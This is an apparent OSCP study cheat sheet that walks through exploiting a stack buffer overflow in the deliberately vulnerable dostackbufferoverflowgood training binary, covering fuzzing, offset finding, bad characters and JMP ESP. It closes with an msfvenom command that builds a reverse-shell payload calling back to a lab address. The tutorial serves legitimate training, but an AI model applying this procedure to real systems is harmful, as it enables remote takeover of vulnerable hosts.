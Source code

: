 ## OSCP Buffer Overflow Cheat Sheet
In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
Immunity Debugger: https://www.immunityinc.com/products/debugger/
Mona.py: https://github.com/corelan/mona
All installation processes are described in the links above.

Fuzzing
We will run the connect.py script to verify the application's response.

After this step, we will run the fuzzing.py script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.

Offset
After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

msf-pattern_create -l 1024
Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138
Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)

Badchars
To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.

There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.

JMP ESP
After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

0x080416BF  <->  "\xBF\x16\x04\x08"
Exploit time
We can now generate our shellcode excluding the badchars found:

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.

Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
